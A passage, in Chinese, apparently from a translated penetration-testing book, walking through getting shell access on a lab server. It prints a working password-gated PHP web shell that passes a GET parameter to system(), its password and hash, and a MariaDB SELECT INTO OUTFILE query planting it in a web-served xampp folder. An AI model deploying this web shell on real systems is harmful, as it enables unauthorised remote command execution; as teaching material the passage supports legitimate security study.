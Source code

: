 在这一阶段，我们需要获取服务器的 shell 访问权限，这样我们才能执行任意命令，而不仅仅是输出 PHP 配置数据。通过修改之前的`SELECT INTO OUTFILE`负载，可以生成一个初步的 PHP shell。PHP 有一个内置函数，方便执行任意的 shell 命令。所有服务器端的 Web 编程语言都具有此功能：如 Python、Perl、ASP、Ruby 等等。

如果我们将来自`GET`请求的数据传递给 PHP 内置的`system()`函数，我们就可以在服务器上执行任意命令。

以下是我们的 Web shell 源代码：

![凭证猜测](img/B09238_03_07.jpg)

图 3.7：Web Shell 源代码

代码非常简单。`if`语句会检查传入的 `password` 参数的 MD5 哈希值是否与 `4fe7aa8a3013d07e292e5218c3db4944` 匹配。如果匹配，`cmd` `GET` 参数中的命令字符串将传递给 PHP 的 `system()` 函数，这样它就会作为系统命令执行，从而为我们提供 shell 访问权限。

我们要找的 MD5 值是 `ECorpAppTest11251` 的哈希值，已通过 `md5sum` Linux 命令确认：

```
root@sol:~# echo -n ECorpAppTest11251 | md5sum
**4fe7aa8a3013d07e292e5218c3db4944** -
root@sol:~#
```

为了方便地通过 MySQL 的`SELECT INTO OUTFILE`语句将 shell 代码写入磁盘，我们可以将其压缩成一行。幸运的是，PHP 对回车符不太敏感，只要代码通过分号和大括号正确分隔即可。我们可以将我们的 Web shell 压缩成以下一行：

```
<?php if (md5($_GET['password']) == **'4fe7aa8a3013d07e292e5218c3db4944')** { system($_GET['cmd']); } ?>
```

如果我们将它插入到我们的 `SELECT INTO OUTFILE` 模板中，我们应该能够将其写入 `xampp` 子目录中，该目录可以通过 Web 访问：

```
MariaDB [(none)]> select **"<?php if (md5($_GET['password']) == '4fe7aa8a3013d07e292e5218c3db4944') { system($_GET['cmd']); } ?>" into outfile "c:/xampp/htdocs/xampp/xampp.php";**
Query OK, 1 row affected (0.01 sec)
**MariaDB [(none)]>**

```

我们可以通过执行 `tasklist` 系统命令并传递 `ECorpAppTest11251` 作为密码，看到 shell 的实际操作，如下图所示：

